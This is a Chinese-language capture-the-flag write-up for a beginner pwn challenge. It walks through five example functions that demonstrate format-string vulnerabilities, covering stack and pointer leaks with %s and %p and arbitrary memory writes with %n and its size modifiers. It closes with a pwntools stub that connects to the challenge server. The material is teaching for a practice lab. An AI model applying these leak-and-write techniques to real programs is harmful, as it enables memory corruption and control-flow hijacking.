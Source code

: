 # 挑战简介
emmm，再来一道基础原理？

# 思路
就是教你每一个格式化字符串的用法示例,一共5个实例

1. func1() - 栈信息泄露攻击
```
int func1()
{
  return printf("%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s");
}
```
使用了24个连续的%s格式说明符，但没有对应的参数  
printf会从栈上读取参数，将栈上的值当作字符串指针来解引用  
这可能导致：  
- 泄露栈上的内存地址
- 程序崩溃（如果栈上的值不是有效的字符串指针）
- 泄露敏感信息

2. func2() - 内存地址泄露
```
int func2()
{
  return printf("%08x-%07x-%p-%p-%p");
}
```

使用格式说明符但没有提供对应参数  
%08x和%07x：以16进制格式输出栈上的值  
%p：以指针格式输出栈上的值  
攻击者可以获得：  
- 栈上的数据
- 内存布局信息
- 可能的返回地址、函数指针等
3. func3() - 结构化信息泄露
```
int func3()
{
  return printf("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p");
}
```
以"AAAA"作为标记，后跟12个%p  
攻击者可以：  
- 通过"AAAA"标记找到自己控制的数据在栈上的位置
- 泄露12个栈位置的指针值
- 分析内存布局，为进一步攻击做准备

4. func4() - 任意内存写入攻击
```
unsigned __int64 func4()
{
  char v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("%0134512640d%n\n", 1LL, &v1);
  return __readfsqword(0x28u) ^ v2;
}
```
%0134512640d：输出134,512,640个字符的数字1  
%n：将到目前为止已输出的字符数写入对应的内存地址  
这里会将134,512,640这个值写入v1的地址  
如果攻击者能控制格式字符串，可以：  
- 修改任意内存位置的值
- 覆盖返回地址
- 修改函数指针
5. func5() - 多种长度的内存写入
```
unsigned __int64 func5()
{
  char v1; // [rsp+1h] [rbp-2Fh]
  char v2; // [rsp+2h] [rbp-2Eh]
  char v3; // [rsp+4h] [rbp-2Ch]
  char v4; // [rsp+8h] [rbp-28h]
  char v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+1Ah] [rbp-16h]
  int v7; // [rsp+22h] [rbp-Eh]
  __int16 v8; // [rsp+26h] [rbp-Ah]
  unsigned __int64 v9; // [rsp+28h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v6 = 6071732385558062408LL;  // 字符串数据
  v7 = 1869116230;
  v8 = 119;
  printf("%s %hhn\n", &v6, &v1);   // 写入1字节
  printf("%s %hn\n", &v6, &v2);    // 写入2字节
  printf("%s %n\n", &v6, &v3);     // 写入4字节
  printf("%s %ln\n", &v6, &v4);    // 写入8字节(long)
  printf("%s %lln\n", &v6, &v5);   // 写入8字节(long long)
  return __readfsqword(0x28u) ^ v9;
}
```
演示了不同长度修饰符的%n用法：  
- %hhn：写入1字节（char）
- %hn：写入2字节（short）
- %n：写入4字节（int）
- %ln：写入8字节（long）
- %lln：写入8字节（long long）
每次都会将字符串长度写入对应变量  
攻击者可以精确控制写入的数据长度

至于答案则在输入'7'
```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28234)

elf = ELF('D:\edge 下载\pwn')

#io.sendline('7')
io.interactive()
```
